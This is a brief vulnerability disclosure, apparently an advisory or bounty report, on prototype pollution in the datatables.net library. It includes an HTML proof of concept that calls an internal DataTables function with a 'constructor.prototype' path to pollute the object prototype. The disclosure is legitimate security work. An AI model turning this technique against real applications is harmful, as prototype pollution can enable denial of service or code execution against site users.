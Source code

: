 # Description

`datatables.net` is vulnerable to `Prototype Pollution`.
This package allowing for modification of prototype behavior, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

The following two files are required to be served by an HTTP server.

poc.html:
<script src="https://code.jquery.com/jquery-3.5.1.js"></script>
<script src="jquery.dataTables.js"></script>
<script>
    $.fn.dataTable.ext.internal._fnSetObjectDataFn('constructor.prototype.foo')({},'polluted');
    document.write('foo : ' + foo);
</script>

jquery.dataTables.js:
https://github.com/DataTables/Dist-DataTables/blob/master/js/jquery.dataTables.js
